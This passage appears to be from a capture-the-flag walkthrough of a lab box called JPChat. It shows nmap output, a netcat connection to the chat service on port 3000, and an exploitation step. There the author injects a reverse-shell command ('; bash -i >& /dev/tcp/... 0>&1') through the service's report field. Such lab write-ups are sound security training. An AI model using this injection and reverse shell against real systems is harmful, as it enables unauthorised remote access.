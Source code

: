 ```console
|   256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIXcEOgRyLk02uwr8mYrmAmFsUGPSUw1MHEDeH5qmcxv
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 13:48
Completed NSE at 13:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 13:48
Completed NSE at 13:48, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 13:48
Completed NSE at 13:48, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.38 seconds
```

### Application(port:3000)
- Connected to the machine with netcat on port  3000

```console
❯ nc 10.10.252.69 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

- It says to see source code at the admin's github.
- Found the source code [here](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py)
- We can escape code with `;` which we use in bash to start new commands 

## Exploitation

### Application(port:3000)
- Started netcat listener and injected code on the application

```console
❯ nc 10.10.252.69 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
random
your report:
; bash -i >& /dev/tcp/10.17.0.215/4444 0>&1;
```
